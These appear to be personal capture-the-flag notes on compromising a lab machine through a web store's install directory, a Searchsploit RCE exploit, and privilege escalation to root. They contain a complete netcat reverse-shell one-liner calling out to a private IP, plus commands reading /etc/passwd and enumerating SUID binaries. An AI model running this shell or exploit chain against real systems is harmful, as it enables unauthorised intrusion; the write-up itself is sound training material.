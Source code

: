 $IP/index.html - nothing interesting. static page.

**GoBuster** - found /catalog. navigating to this directory redirected me to $IP/catalog/install/index.php

**Searchsploit** - php/webapps/44374.py

edited the code:
base/taget url
added a proxy (burpsuite)

![[Pasted image 20210731215214.png]]
![[Pasted image 20210731215242.png]]

Now I have RCE but it redirects Stdout to configure.php

enumerated users via burp (URL ENCODE):
ls -la /home
cat /etc/passwd

tried to print the source code of configure.php.bak but since it's php, we have to base64 encode it. resulted to:
![[Pasted image 20210731221909.png]]

but the important things are:
![[Pasted image 20210731222004.png]]

using the RCE from Searchsploit, managed to get a reverse shell using:

> rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.104 9999 >/tmp/f

### As www-data
got a shell as www-data, su'ed to jack:
![[Pasted image 20210801000837.png]]

### As jack
sudo -l : jack can't run any command as sudo
find / -perm -4000 -user root 2>/dev/null : no uncommon SUID binary
getcap -r / 2>/dev/null : no exploitable capabilities

pspy64 :
![[Pasted image 20210801011929.png]]

![[Pasted image 20210801010951.png]]

catting it results to a base64 encoded string that gives us the root password when decoded:
![[Pasted image 20210801011047.png]]

root.txt:
![[Pasted image 20210801011149.png]]